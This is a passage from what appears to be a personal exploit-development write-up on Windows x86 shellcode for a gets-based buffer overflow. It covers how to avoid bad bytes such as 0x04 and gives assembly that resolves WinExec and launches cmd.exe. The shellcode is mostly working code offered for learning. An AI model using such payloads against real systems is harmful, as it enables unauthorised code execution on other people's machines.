 And yet, another problem! The `0x04` bytes from the compiled `mov    ax,WORD PTR [ecx+eax*2]` and `mov eax, [edx + eax*4]` don't get read by `gets`. It still fills the buffer unlike `0x1c`, but is just absent, which screws up the shell code functionality. Again, a lot of confusion when I would SEE the code get read in properly, but then the commands get offset improperly and becomes a garbled mess.

So again, more fiddling to avoid causing those `0x04` bytes to show up:

```asm
mov esi, ecx
add esi, eax
add esi, eax
mov ax, [esi] ; ax = ordinal number = var12 + (counter * 2)
mov esi, edx
add esi, eax
add esi, eax
add esi, eax
add esi, eax
mov eax, [esi] ; eax = RVA of function = var20 + (ordinal * 4)
xor esi, esi
```

## Popping a Shell <a name="Shell"></a>

First, we load our parameter onto the stack:
```asm
xor edx, edx
push edx         ; null terminator
push 0x20657865
push 0x2e646d63
push 0x5c32336d
push 0x65747379
push 0x535c7377
push 0x6f646e69
push 0x575c3a43 ; "C:\Windows\System32\cmd.exe "
```

The writeup shellcode used `calc.exe` at first, which is interesting that the whole path is divisible by 8, making it a bunch of clean stack pushes. Luckily, windows doesn't give a shit, and I can just use a space (`0x20`) to fill... space.

(Also, remember little endian and stack structure, which is why the bytes are ordered backwards!)

Finally, we call WinExec with our parameters pushed onto the stack

```asm
mov esi, esp		; esi -> "C:\Windows\System32\cmd.exe "

push 10  		; window state SW_SHOWDEFAULT
push esi 		; "C:\Windows\System32\cmd.exe "
call eax 		; WinExec

add esp, 0x46		; clear the stack
ret
```

